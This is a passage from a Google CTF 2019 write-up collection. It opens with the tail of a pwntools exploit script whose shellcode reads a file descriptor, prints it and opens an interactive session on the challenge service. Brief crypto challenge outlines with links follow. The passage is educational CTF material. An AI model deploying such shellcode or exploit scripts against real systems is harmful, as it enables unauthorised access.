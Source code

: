 ```python
mov rdi,0x3
mov rsi,rsp
mov rdx,0x100
mov rax,0
syscall
mov rdx,rax
mov rdi,1
mov rsi,rsp
mov rax,1
syscall
""") #read fd

r.recvuntil("assembly")
r.send(p16(len(shellcode))+shellcode)
time.sleep(0.0015)
r.send("2")

r.interactive()


```


## Crypto

### reality
Read the full writeup [here](https://sasdf.cf/ctf/writeup/2019/google/crypto/reality/).

#### TL;DR
1. Guess what the service does
2. Multiply $10^{450}$ to each number and truncate the fraction to integer
3. Build the lattice
4. Run LLL to find the shortest integer solution
5. Decrypt the flag with AES-CBC


### Quantum Key Distribution
Read the full writeup [here](https://sasdf.cf/ctf/writeup/2019/google/crypto/qkd/).

#### TL;DR
1. Exchange shared secret using BB84 protocol
2. Convert the bit string to char string with correct order
3. XOR the secret and encryped key to decrypt it


### Reverse a cellular automata
Read the full writeup [here](https://sasdf.cf/ctf/writeup/2019/google/crypto/cell/).

#### TL;DR
1. Use DFS to find the key
2. Decrypt the flag with all those key
3. Find the flag which contains `CTF`
